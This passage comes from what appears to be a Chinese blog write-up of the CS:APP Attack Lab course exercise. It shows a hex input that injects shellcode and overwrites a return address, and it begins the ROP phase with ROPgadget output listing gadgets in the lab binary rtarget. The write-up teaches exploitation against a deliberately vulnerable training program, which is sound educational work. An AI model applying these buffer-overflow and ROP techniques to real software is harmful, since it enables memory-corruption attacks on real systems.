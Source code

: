得到最终的输入：

{%spoiler 示例代码%}
```shell
66 68 66 61 66 68 39 37
66 68 62 39 66 68 35 39
48 89 e7 68 fa 18 40 00 
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
{%endspoiler%}

执行：

![image-20220809180142844](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/202208091801966.png)
=======


### ROP(phase 4)

​	这次的实验目标与phase 2相同，也是要调用touch2。不同之处在于，这次的目标程序rtarget被编译为随机栈地址和栈不可执行，因此之前CI的攻击方法失效，需要另找方法实现。其实这里的要求就是ROP的方法实现。

​	回忆一下为了调用touch2，需要做的事情：

* 输入cookie

* 将cookie从栈上放入rdi
* 覆盖栈上的返回地址

由于无法注入代码，那么为了操控寄存器，只能利用已有的指令，提示已经明确指出攻击所需要用到的gadgets都在start_farm和end_farm之间，因此可以看一下这个范围里的指令有哪些，这里我们借助工具（ROPgadget， 地址https://github.com/JonathanSalwan/ROPgadget.git）看一下（注意这里显示的指令是intel格式的）：

{%spoiler 示例代码%}
```shell
[root@VM target1]# ROPgadget --binary ./rtarget --range 0x401994-0x401ab2|grep -E 'mov|pop'
0x0000000000401998 : add bl, al ; mov eax, 0x909078fb ; ret
0x0000000000401996 : add byte ptr [rax], al ; add bl, al ; mov eax, 0x909078fb ; ret
0x0000000000401a8f : cmp al, 0xc3 ; mov eax, 0xc020ce88 ; ret
0x0000000000401a6c : fcmovnb st(0), st(3) ; mov dword ptr [rdi], 0xc391d189 ; ret
0x00000000004019f4 : fcmovnb st(0), st(3) ; mov eax, 0xc048d189 ; ret
0x0000000000401a31 : fcmovnb st(0), st(3) ; mov eax, 0xc938d189 ; ret
0x0000000000401a08 : loopne 0x4019cd ; mov dword ptr [rdi], 0xc908c288 ; ret
0x0000000000401a92 : mov dh, cl ; and al, al ; ret
0x0000000000401a0c : mov dl, al ; or cl, cl ; ret
0x00000000004019e1 : mov dword ptr [rdi], 0x9090d199 ; ret
0x00000000004019c3 : mov dword ptr [rdi], 0x90c78948 ; ret
0x0000000000401aab : mov dword ptr [rdi], 0x90e08948 ; ret
0x0000000000401a5a : mov dword ptr [rdi], 0x91e08948 ; ret
0x00000000004019b5 : mov dword ptr [rdi], 0x9258c254 ; ret
0x00000000004019fc : mov dword ptr [rdi], 0xc084d181 ; ret
0x0000000000401a97 : mov dword ptr [rdi], 0xc2e08948 ; ret
0x0000000000401a6e : mov dword ptr [rdi], 0xc391d189 ; ret
0x00000000004019bc : mov dword ptr [rdi], 0xc78d4863 ; ret
0x00000000004019ae : mov dword ptr [rdi], 0xc7c78948 ; ret
0x0000000000401a0a : mov dword ptr [rdi], 0xc908c288 ; ret
0x0000000000401a7c : mov dword ptr [rdi], 0xc908ce09 ; ret
0x0000000000401a75 : mov dword ptr [rdi], 0xd238c281 ; ret
0x0000000000401a2c : mov dword ptr [rdi], 0xdb08ce81 ; ret
0x000000000040199a : mov eax, 0x909078fb ; ret
0x00000000004019db : mov eax, 0x90c2895c ; ret
0x0000000000401a91 : mov eax, 0xc020ce88 ; ret
0x00000000004019f6 : mov eax, 0xc048d189 ; ret
0x0000000000401a18 : mov eax, 0xc1e08948 ; ret
0x00000000004019ca : mov eax, 0xc3905829 ; ret
0x0000000000401a33 : mov eax, 0xc938d189 ; ret
0x0000000000401a54 : mov eax, 0xc9c4c289 ; ret
```